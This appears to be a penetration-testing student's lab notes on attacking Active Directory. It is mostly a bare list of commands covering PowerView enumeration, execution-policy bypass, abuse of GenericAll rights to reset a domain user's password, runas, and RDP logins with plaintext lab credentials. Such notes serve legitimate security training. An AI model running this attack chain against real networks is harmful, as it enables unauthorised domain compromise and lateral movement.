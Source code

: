 ### 05-Oct-23 Thu

![](Pasted%20image%2020231005205250.png)

1. Initial Foothold
2. Enumeration
3. Lateral Movement
4. Domain Compromise

```
powershell -ExecutionPolicy Bypass -File script.ps1
```

```
Import-Moudle .\PowerView.ps1
```

```
Get-NetUser | select samaccountname,lastlogon
```

```
net group "Group-Name" /domain
```

```
Get-NetGroup "Group-Name" | select member
```

```
Get-NetComputer | select dnshostname,operatingsystem,operatingsystemversion
```

```
Resolve-IPAddress $dnshostname
```

```
Find-LocalAdminAccess
```

```
Get-NetSession -ComputerName $dnshostname -Verbose
```

```
Get-Acl -Path HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\DefaultSecurity\ | fl
```

```
Get-Acl -Path HKLM:SYSTEM\CurrentControlSet\Services\LanmanServer\DefaultSecurity\ | fl
```

![](Pasted%20image%2020231006211541.png)

```
.\PsLoggedon.exe \\files04
```

```
Get-ObjectAcl -Identity "Management Department" | ?
{$_.ActiveDirectoryRights -eq "GenericAll"} | select
SecurityIdentifier,ActiveDirectoryRights
```

```
"S-1-5-21-1987370270-
658905905-1781884369-1104" | Convert-SidToName
```

```
CORP\stephanie
```

```
net user jen Password123 /domain
```

```
runas /user:corp\jen powershell.exe
```

```
powershell -ep bypass
```

```
Import-Module .\PowerView.ps1
```

```
Find-LocalAdminAccess
```

```
xfreerdp /u:stephanie /d:corp.com /v:192.168.50.75
```

```
xfreerdp /u:jeffadmin /v:192.168.226.70 /smart-sizing:1920x1200
```

Get Shift Done!

```
xfreerdp /u:rdp_admin /p:P@ssw0rd! /v:192.168.50.64
```

```
xfreerdp /u:rdp_admin /p:P@ssw0rd! /v:127.0.0.1:9833
```

